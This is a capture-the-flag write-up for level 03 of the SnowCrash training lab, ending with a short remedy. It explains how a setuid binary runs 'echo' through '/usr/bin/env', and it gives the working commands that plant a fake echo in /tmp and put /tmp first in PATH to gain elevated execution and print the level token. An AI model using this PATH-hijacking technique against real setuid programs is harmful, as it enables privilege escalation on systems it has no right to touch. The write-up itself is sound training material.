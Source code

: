 Level 03
========

*	We spawn with a `level03` file in root repository
*	No extension so I try to execute it and it prints 'Exploit me'
*	Then I try to _cat_ the file but its unreadable since its an executable
*	Using `file` command I saw that I should be able to get the asm code:
	```console
	level03@SnowCrash:~$ file level03 
	level03: setuid setgid ELF 32-bit LSB executable...
	```
*	I wanted to get a good look at the file so I used scp to get it on my machine and then:
	```console
	root@DESKTOP-69N2SL4:~# objdump -M Intel -d level03 > dump.s
	```
*	Code was still kinda bad so I did a little script to make it cleaner:
	```console
	root@DESKTOP-69N2SL4:~# sh cutlines.sh
	```
*   We can see many calls but one of them is a system one :
	```assembly
	...
	call   80483b0 <system@plt>
	...
	```
*   So when we look into it on `gdb`
	```
	(gdb) x/s 0x80485e0
	0x80485e0:       "/usr/bin/env echo Exploit me"
	```
*   It seems like `echo` is vulnerable to manipulation since it's called using `/usr/bin/env` which makes the computer use the first binary found in `PATH`
*   So we should be able to create a script called echo to get the flag for us !
	```console
	level03@SnowCrash:~$ echo 'getflag' > /tmp/echo
	level03@SnowCrash:~$ export PATH=/tmp:$PATH
	level03@SnowCrash:~$ ./level03
	Exploit me
	```
*   DOESN'T WORK ! WHY ? (Well I forgot a little something)
	```console
	level03@SnowCrash:~$ chmod +x /tmp/echo
	level03@SnowCrash:~$ ./level03
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
	```
REMEDY
======

Most obvious thing we could do to fix this one would be to call echo with the absolute path `/usr/bin/echo`
